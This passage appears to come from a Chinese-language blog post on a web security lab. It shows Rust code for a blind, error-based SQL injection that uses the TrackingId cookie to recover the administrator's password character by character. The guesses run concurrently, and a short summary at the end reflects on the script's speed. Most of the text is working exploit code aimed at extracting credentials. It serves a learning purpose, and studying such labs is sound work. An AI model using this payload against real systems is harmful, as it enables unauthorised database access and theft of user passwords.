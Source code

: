 ```rust
    let v = format!("TrackingId=123'||(SELECT CASE WHEN SUBSTR(password,{},1)='{}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';",i,j);
    headers.insert("Cookie", v.parse().unwrap());
    let status_code = client.get(URL).headers(headers).send().await?.status();
    if status_code == reqwest::StatusCode::INTERNAL_SERVER_ERROR {
        return Ok(j);
    }
    return Err("not found".into());
}

async fn batch_send(i: i32, payload: &Vec<String>) -> Result<String> {
    let mut set = JoinSet::new();
    for j in payload.iter() {
        set.spawn(send_payload(i.clone(), j.to_owned()));
    }
    loop {
        let task_result = set.join_next().await;
        match task_result {
            Some(v) => match v? {
                Ok(result) => {
                    set.abort_all();
                    return Ok(result);
                }
                Err(_) => {
                    continue;
                }
            },
            None => {
                continue;
            }
        }
    }
}

#[tokio::main]
async fn main() -> Result<()> {
    let start = Instant::now();
    let payload = get_payload();
    let mut tasks = vec![];
    for i in 1..=MAX_NUM {
        tasks.push(batch_send(i, &payload))
    }
    let result = join_all(tasks).await;
    let password = result
        .into_iter()
        .filter_map(|r| r.ok())
        .collect::<Vec<String>>()
        .join("");
    println!("use time {}", start.elapsed().as_secs());
    println!("{}", password);
    Ok(())
}

```

## 小结

本以为第三个方法会比第二个方法快很多，但是却慢了，当然可以能是我刚了解rust 并发的问题，后续随着深入学习，在看看是否可以更加快速的爆破密码。
